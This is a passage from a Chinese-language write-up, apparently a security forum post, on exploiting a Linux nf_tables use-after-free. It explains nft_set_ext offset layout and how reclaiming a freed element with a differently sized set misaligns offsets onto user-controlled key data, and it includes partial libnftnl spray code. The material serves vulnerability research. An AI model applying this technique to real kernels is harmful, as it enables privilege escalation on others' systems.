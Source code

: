 ​​![image](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-696e3f16e63f30ee33d5876be1dfefce25480a02.png)​​

‍

elem 的第二个部分是 struct nft\_set\_ext 结构体，在 struct nft\_set\_ext 的后面是实际的 ext 数据，ext-&gt;offset 是一个 9 字节的数组，数组中的每一项表示该类型的数据相对 ext 结构起始地址的偏移。

下图是一个存储了 NFT\_SET\_EXT\_KEY 和 NFT\_SET\_EXT\_EXPRESSIONS 的 elem 对象的布局：

‍

​![image](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-3e143b70dbc7fbd85ae69d2a8c2061d7016ca110.png)​

> PS： offset\[0\] 保存了 NFT\_SET\_EXT\_KEY 数据相对 ext 的偏移； offset\[7\] 保存了 NFT\_SET\_EXT\_EXPRESSIONS 数据相对 ext 的偏移；内核根据偏移就能计算出相应数据的地址。

下面再看一下内核访问 NFT\_SET\_EXT\_EXPRESSIONS 使用的相关代码：

```c
static inline void *nft_set_ext(const struct nft_set_ext *ext, u8 id)
{
    return (void *)ext + ext->offset[id];
}

static inline struct nft_set_elem_expr *nft_set_ext_expr(const struct nft_set_ext *ext)
{
    return nft_set_ext(ext, NFT_SET_EXT_EXPRESSIONS);
}
```

nft\_set\_ext\_expr 首先从 ext-&gt;offset\[NFT\_SET\_EXT\_EXPRESSIONS\] 取出偏移，然后加上 ext 地址，最后强转为 `struct nft_set_elem_expr`​ 指针。

再次回到漏洞原语：

```c
static void nf_tables_set_elem_destroy(const struct nft_ctx *ctx,
                       const struct nft_set *set, void *elem)
{
    struct nft_set_ext *ext = nft_set_elem_ext(set, elem);

    if (nft_set_ext_exists(ext, NFT_SET_EXT_EXPRESSIONS))
        nft_set_elem_expr_destroy(ctx, nft_set_ext_expr(ext));

    kfree(elem);
}
```

如果我们首先设置 set-&gt;ops-&gt;elemsize = 8，触发 free 后使用 set-&gt;ops-&gt;elemsize = 0x10 的 set 占位，这样 nft\_set\_elem\_ext 计算出的 ext 就会发生 8 字节的错位：

​![image](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-44c76ffe0f3dd34cb96168210b4c7470d474c193.png)​

错位后拿到的 `ext->offset[2...8]`​ 位于原始 ext 的 EXT\_KEY 部分，该数据由用户态控制：

```c
    nftnl_set_elem_set(set_elem, NFTNL_SET_ELEM_KEY, set_elem_key, set_elem_key_len);  --> 设置 EXT_KEY
    nftnl_set_elem_set(set_elem, NFTNL_SET_ELEM_USERDATA, set_elem_userdata, sizeof(set_elem_userdata));

    nftnl_set_elem_add(set, set_elem);

    struct nlmsghdr *nlh = nftnl_nlmsg_build_hdr(
        mnl_nlmsg_batch_current(batch),
        NFT_MSG_NEWSETELEM,
        NFPROTO_INET,
        NLM_F_CREATE | NLM_F_EXCL | NLM_F_ACK,
```